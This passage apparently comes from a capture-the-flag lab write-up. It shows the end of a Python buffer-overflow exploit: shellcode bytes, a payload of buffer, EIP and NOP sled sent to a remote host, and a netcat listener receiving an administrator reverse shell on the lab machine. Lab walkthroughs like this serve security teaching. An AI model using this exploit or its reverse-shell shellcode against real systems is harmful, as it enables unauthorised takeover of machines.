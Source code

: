 ```python
    shellcode += b"\xda\x5e\xd8\x35\x7e\x15\xf5\x22\xf3\x74\x92"
    shellcode += b"\x87\x3e\x86\x62\x80\x49\xf5\x50\x0f\xe2\x91"
    shellcode += b"\xd8\xd8\x2c\x66\x1e\xf3\x89\xf8\xe1\xfc\xe9"
    shellcode += b"\xd1\x25\xa8\xb9\x49\x8f\xd1\x51\x89\x30\x04"
    shellcode += b"\xf5\xd9\x9e\xf7\xb6\x89\x5e\xa8\x5e\xc3\x50"
    shellcode += b"\x97\x7f\xec\xba\xb0\xea\x17\x2d\xb5\xe0\x19"
    shellcode += b"\xa0\xa1\xf6\x25\x99\x18\x7e\xc3\xb7\x4a\xd6"
    shellcode += b"\x5c\x20\xf2\x73\x16\xd1\xfb\xa9\x53\xd1\x70"
    shellcode += b"\x5e\xa4\x9c\x70\x2b\xb6\x49\x71\x66\xe4\xdc"
    shellcode += b"\x8e\x5c\x80\x83\x1d\x3b\x50\xcd\x3d\x94\x07"
    shellcode += b"\x9a\xf0\xed\xcd\x36\xaa\x47\xf3\xca\x2a\xaf"
    shellcode += b"\xb7\x10\x8f\x2e\x36\xd4\xab\x14\x28\x20\x33"
    shellcode += b"\x11\x1c\xfc\x62\xcf\xca\xba\xdc\xa1\xa4\x14"
    shellcode += b"\xb2\x6b\x20\xe0\xf8\xab\x36\xed\xd4\x5d\xd6"
    shellcode += b"\x5c\x81\x1b\xe9\x51\x45\xac\x92\x8f\xf5\x53"
    shellcode += b"\x49\x14\x15\xb6\x5b\x61\xbe\x6f\x0e\xc8\xa3"
    shellcode += b"\x8f\xe5\x0f\xda\x13\x0f\xf0\x19\x0b\x7a\xf5"
    shellcode += b"\x66\x8b\x97\x87\xf7\x7e\x97\x34\xf7\xaa"
        
    payload = buffer + eip + nops + shellcode
    #prompt=">> "
    conn = remote(host,port)
    #conn.recvuntil(prompt)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit()      
```

finally I receive a shell as administrator

```shell
$ rlwrap nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.198] 49704
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
buff\administrator

C:\Windows\system32>
```
